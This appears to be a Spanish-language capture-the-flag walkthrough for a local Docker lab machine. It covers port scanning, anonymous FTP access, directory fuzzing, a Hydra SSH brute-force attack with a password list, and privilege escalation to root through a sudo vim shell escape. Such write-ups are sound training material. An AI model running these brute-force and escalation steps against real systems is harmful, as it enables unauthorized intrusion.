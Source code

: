 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh obsession.tar
```

![Pasted image 20250131110723](https://github.com/user-attachments/assets/b1f1cd84-a5c4-4914-a8eb-4f53f3b71781)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131110822](https://github.com/user-attachments/assets/7176c822-982d-4a7a-a739-e3ceae288b94)

Nos conectamos con **FTP**:

```Bash
ftp 172.17.0.2
```

![Pasted image 20250131110950](https://github.com/user-attachments/assets/7d69d7c3-99d5-4301-92f7-d49ddd20d4e8)

```Bash
anonymous
```

![Pasted image 20250131111006](https://github.com/user-attachments/assets/ed0a8fda-cb02-4647-bba1-e667559ac2c6)

```Bash
'blank'
```

![Pasted image 20250131111028](https://github.com/user-attachments/assets/a6d83050-c79d-4f36-aff1-be7bb7c23ed2)

```Bash
ls
```

![Pasted image 20250131111046](https://github.com/user-attachments/assets/4a58769f-7bb5-4fc0-944f-acc85656b44d)

```Bash
get chat-gonza.txt pendientes.txt
```

![Pasted image 20250131111122](https://github.com/user-attachments/assets/459a8287-3383-438c-baa1-f28ab27a9b90)

```Bash
cat chat-gonza.txt
```

![Pasted image 20250131111157](https://github.com/user-attachments/assets/ca8585db-241d-4202-ac53-2479bd642adc)

```Bash
cat pendientes.txt
```

![Pasted image 20250131111325](https://github.com/user-attachments/assets/33a8dc58-9d67-41cf-8d01-4a49f7ed0c1b)

Encontramos 3 nombres así que vamos a explorar un poco más.

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250131112740](https://github.com/user-attachments/assets/60246d48-8009-42dd-8143-88b7694ba0c6)

Nos metemos en la web:

![Pasted image 20250131111923](https://github.com/user-attachments/assets/ee67a67f-d53a-40c7-beb3-4553d0002189)

![Pasted image 20250131111936](https://github.com/user-attachments/assets/a70e3105-411b-426d-a2de-74d8d90ad78d)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![Pasted image 20250131112040](https://github.com/user-attachments/assets/3c212e52-3257-4b00-bf4f-b81fdf6dfd2f)

Nos conectamos con **SSH**:

```Bash
ssh russoski@172.18.0.2
```

![Pasted image 20250131112159](https://github.com/user-attachments/assets/738719a0-9f37-4723-a3dd-344a7e25b8cd)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250131112216](https://github.com/user-attachments/assets/e359d554-3b6c-4472-ba7b-b2de642f85f6)

```Bash
sudo vim -c ':!/bin/bash'
```

![Pasted image 20250131112620](https://github.com/user-attachments/assets/1fc91096-29cd-4bc3-b3de-c7eb18b50ae4)

```Bash
whoami
```

![Pasted image 20250131112638](https://github.com/user-attachments/assets/c785a0b2-f77f-43ef-9a86-d9037f1de625)
